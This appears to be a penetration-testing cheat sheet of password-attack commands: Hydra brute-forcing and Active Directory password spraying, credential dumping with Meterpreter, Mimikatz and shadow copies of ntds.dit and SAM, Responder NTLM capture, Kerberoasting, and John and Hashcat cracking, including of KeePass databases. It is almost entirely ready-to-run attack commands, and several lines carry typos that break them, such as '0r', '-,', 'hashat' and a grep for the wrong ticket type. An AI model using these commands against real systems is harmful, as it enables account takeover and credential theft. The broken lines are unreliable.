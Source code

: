 # Password Attacks
## Password Guessing
### HYDRA
```bash
hydra -l bgreen -P /opt/passwords/rockyou.txt 10.10.10.10 ssh -s 22
```
#### Single User, Multiple Passwords, Targeting SSH on port 2222
```bash
hydra -l root -P passwords.txt ssh://1.2.3.4:2222
```
#### Multiple Users, Single Passwords, Targeting SMB on default port
```bash
hydra -L users.txt -p password1 dc.target.local smb2
```
#### Single User, Single Password, Targeting Multiple Tagets Across the Network
```bash
hydra -l bberner -p P@ssword1! -M windows-hosts.txt smb2
```
#### Previously Compromised Users Accross the network
```bash
hydra -C creds.txt -M windows-hosts.txt smb2
```
#### Guessing Domain user passwords using hte domain controller
```bash
hydra -C creds.txt dc01.hitbox.com smb2 -m workgroup:{hitbox}
```

## AD Password Spraying an AD Environment
```bash
GetADUsers.py hitbox.com/bgreen:Password1 -dc-ip 10.10.10.55 -all | tee /tmp/ADUsers.txt
```
```bash
hydra -L /tmp/ADUsers.txt -p Password1 -m workgroup.{hitbox} 10.10.10.55 smb2
```

## Credential Stealing
### Meterpreter
#### Smart Hashdump
```bash
run post/windows/gather/smart_hashdump
```
#### Hashdump
```bash
run post/windows/gather/hashdump
```
#### Kiwi
```meterpreter
ps -A x64 -s
```
```meterpreter
migrate PID_of_SpoolSV
```
```meterpreter
load kiwi
```
```meterpreter
creds all
```
### ntds.dit
#### VSSOwn
```cmd
cscript vssown.vbs /status
cscript vssown.vbs /start
cscript vssown.vbs /create /c
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\ntds\ntds.dit ntdsbackup.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SYSTEM systembackup.bak
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SAM sambackup.bak
cscript vssown.cbs /stop
```
```cmd
reg save hklm\system /y
```
#### Dump the passwords
```bash
secretsdump.py --ntds /location/ntds.dit -system /location/systembackup.bak -outputfile /tmp/hashes.txt
```
#### NTDSUtil
```cmd
ntdsutil
activate instance ntds
ifm
create full C:\mybackup
quit
quit
```
```cmd
ntdsutil "ac in ntds" "ifm" "cr gu C:\mybackup" q q
```
### Mimikatz
#### Always use these
```mimikatz
privilege::debug
```
```mimikatz
token::elevate
```
```mimikatz
lsadump::sam
```


## John The Ripper
### Cracking Windows LM Hashes
```bash
john ~/lans/web01.hashes --show
```
### Cracking Windows NT Hashes
```bash
john --format=nt ~/labs01.hashes
```
### Cracking Windows NT Hashes w/ LoopBack
```bash
john --format=nt --loopback ~/labs01.hashes
```
### Cracking WIndows NT hashes w/ Wordlist
```bash
john --format=nt --worldlist=/opt/passwords/rockyou.txt ~/labs/web01.hashes
```
### Cracking Linux Hashes
```bash
john ~/labs/web10.shadow --wordlist=/opt/passwords/rockyou.txt
```

## Hashcat
### Cracking Windows NT Hashes
```bash
hashcat -w 3 -a 0 -m 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt
```
### Cracking Windows NT Hashes with rules
```bash
hashcat -w 3 -a 0 -, 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt -e /usr/local/share/doc/hashcat/rules/best64.rule
```

### Cracking Windows NT Hashes with Masks
```bash
hashcat -w 3 -a 6 -m 1000 ~/labs.web01.hashes /opt/passwords/rockyou.txt ?d?s
```
### View Cracked Passwords
```bash
hashat -m 1000 --username --show --outfile-format 2 ~/labs/web01.hashes
```
### Crack Linux Password SHA512Crypt
```bash
hashcat -w 3 -a 0 -m 1800 ~/labs/web10.shadow /opt/passwords/rockyou.txt 0r /user/local/share/doc/hashcat/rules/best64.rule
```
### Crack NTLM Hashes
#### Set Up Responder
```bash
responder.py -I eth0
```
#### pcredz
```bash
python3 ./pcredz -f /tmpwinauth.pcap
```
#### Hashcat on NTLMv2 Hashes
```bash
hashcat -w 3 -a 0 -m 5600 /opt/pcredz/logs/NTLMv2.txt /opt/passwords/rockyou.txt 
```

## Kerberoasting
### Get SPNs
```bash
GetUserSPNs.py hitbox.com/<user>:<pass> -request -dc-ip 10.10.10.35 | tee /tmp/spnoutput.txt
grep krbtgt /tmp/spnoutput.txt > /tmp/tickets
hashcat -m 13100 -a 6 /tmp/tickets /opt/passwords/rockyou.txt ?d
```

## Keeppass
### Find Keepass file
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction
SilentlyContinue
```
### Generate Hash file
```bash
keepass2john Database.kdbx > keepass.hash
```
### Crack with hashcat
```cmd
hashcat -m 13400 keepass.hash
/usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule
```
